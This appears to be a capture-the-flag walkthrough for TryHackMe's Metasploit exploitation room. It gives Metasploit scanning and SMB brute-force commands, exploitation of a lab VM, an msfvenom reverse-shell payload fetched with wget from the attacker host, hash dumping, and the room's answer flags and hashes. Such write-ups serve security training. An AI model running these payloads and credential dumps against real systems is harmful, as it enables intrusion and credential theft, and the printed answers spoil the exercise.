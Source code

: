 ```yaml
---
description: https://tryhackme.com/room/metasploitexploitation
---
```


# Metasploit: Exploitation

## Task 2 Scanning

#### How many ports are open on the target system?

```bash
msfconsole
msf > search portscan
msf > use 5
msf > setg RHOSTS 10.10.18.164
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 18-25-26.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-09 18-34-19.png>)

{% hint style="success" %}
`5`
{% endhint %}

#### Using the relevant scanner, what NetBIOS name can you see?

```bash
msf > search netbios
msf > use 2
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 18-36-28.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-09 18-37-42.png>)

{% hint style="success" %}
`ACME IT SUPPORT`
{% endhint %}

#### What is running on port 8000?

```bash
msf > search http_version
msf > use 0
msf > set RPORT 8000
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 18-41-46.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-09 18-42-40.png>)

{% hint style="success" %}
`webfs/1.21`
{% endhint %}

#### What is the "penny" user's SMB password?

```bash
msf > search smb_login
msf > use 0
msf > set SMBUser penny
msf > set PASS_FILE MetasploitWordlist.txt
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 18-44-01.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-09 19-08-53.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-09 19-09-17.png>)

{% hint style="success" %}
`leo1234`
{% endhint %}

## Task 4 Vulnerability Scanning

#### Who wrote the module that allows us to check SMTP servers for open relay?

```bash
msf > search smtp relay
msf > use 0
msf > info
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 19-25-26.png>)

{% hint style="success" %}
`Campbell Murray`
{% endhint %}

## Task 5 Exploitation

#### Exploit one of the critical vulnerabilities on the target VM

```bash
msfconsole
msf > use 0
msf > set RHOSTS 10.10.5.180
msf > set LHOST 10.6.9.176
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 19-29-26.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-09 19-33-07.png>)

#### What is the content of the flag.txt file?

```bash
meterpreter > search -d C:\\ -f flag.txt
meterpreter > cat 'C:\Users\Jon\Documents\flag.txt'
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 19-35-54.png>)

{% hint style="success" %}
`THM-5455554845`
{% endhint %}

#### What is the NTLM hash of the password of the user "pirate"?

```bash
hashdump
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 19-37-08.png>)

{% hint style="success" %}
`8ce9a3ebd1647fcc5e04025019f4b875`
{% endhint %}

## Task 6 Msfvenom

#### Launch the VM attached to this task. The username is murphy, and the password is 1q2w3e4r. You can connect via SSH or launch this machine in the browser. Once on the terminal, type "sudo su" to get a root shell, this will make things easier.

```bash
ssh murphy@10.10.180.250
sudo -l
sudo su -
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-09-29.png>)

#### Create a meterpreter payload in the .elf format.

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.6.9.176 \
         -a x86 --platform linux -f elf -o shell.elf
cp shell.elf /var/www/html
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-11-41.png>)

#### Transfer it to the target machine

```bash
wget http://10.6.9.176/shell.elf
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-13-47.png>)

#### Get a meterpreter session on the target machine.

```bash
msf > use exploit/multi/handler
msf > set payload linux/x86/meterpreter/reverse_tcp
msf > set LHOST 10.6.9.176
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-16-33.png>)

```bash
chmod +x shell.elf
./shell.elf
```

#### Use a post exploitation module to dump hashes of other users on the system.

```bash
msf > search hashdump
msf > use 5
msf > set SESSION 2
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-20-21.png>) ![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-20-51.png>)

#### What is the other user's password hash?

{% hint style="success" %}
`$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0`
{% endhint %}
